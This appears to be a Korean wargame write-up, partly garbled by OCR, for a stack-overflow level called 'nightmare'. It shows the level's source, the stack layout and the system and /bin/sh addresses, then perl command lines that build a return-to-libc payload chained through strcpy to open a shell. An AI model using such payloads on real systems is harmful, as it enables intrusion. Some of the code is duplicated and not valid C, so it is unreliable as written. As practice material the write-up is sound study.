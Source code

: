 	
	
	memcmp( argv[1][44],0x8048410<strcpy>,4 )
	
	if(flag!=1){
	
	printf("You must fall in love with strcpy()\n");
	
	exit(0);
	}
	
	
	
	
	strcpy(buffer,argv[1]);
	
	
	
	printf("%s\n",buffer);
	
	
	//ebp-40+48=ebp+8
	memset(argc,65,4);
	
	
	
ebp-40: buffer
ebp-44: addr

if(argc<=1){ printf("argv error\n"); exit(0); } memcmp( argv[1][44],0x8048410<strcpy>,4 )
if(flag!=1){
printf("You must fall in love with strcpy()\n");
exit(0);
}
strcpy(buffer,argv[1]);
printf("%s\n",buffer);
memset(argc,65,4);

memset(argc,65,4);
memset(초기화할 곳, 어떤 데이터로 초기화할지, 얼마만큼 초기화할지)
argv영역을 65(10진수)--> <16진수로는 41>로 4바이트만큼 초기화
<strcpy>
char *strcpy(char *dest, const char *src);
r $(perl -e 'print "a"x44 . "\x10\x84\x04\x08"')
./aa $(perl -e 'print "a"x44 . "\x10\x84\x04\x08"')
ret부분이 strcpy함수주소가 아니면 exit됨.
1. nop+shell+strcmp+shell
<system> 0x40058ae0
</bin/sh>  0x400fbff9
[strcpy (원래는 ret)] [ ret2 ] [ &dest ] [ &src ] 의 형태로 넣어주면 src->dest 데이터를 복사할 수 있음. 
[ buffer(40) ] [ sfp(4) ] [ strcpy(4) ] [ ret2(4) ] [ &dest(4) ] [ &src(4) ] 
[ system ] [ aaaa ] [ /bin/sh ] [ dummy(32) ] [ strcpy ] [ ret2 ] [ &ret2 ] [ &buffer ]
<system> : 0x40058ae0
</bin/sh> : 0x400fbff9
     &buffer: bf/ff/fa/a0
        &ret : bf/ff/fa/d0

./nightmare $(perl -e 'print "\xe0\x8a\x05\x40" . "aaaa" . "\xf9\xbf\x0f\x40" . "a"x32 . "\x10\x84\x04\x08" . "retn" . "\xe0\xfa\xff\xbf" . "\xb0\xfa\xff\xbf"')
&ret2, &buffer를 동시에 16바이트씩 변경. 한개 올렸더니 깨짐.
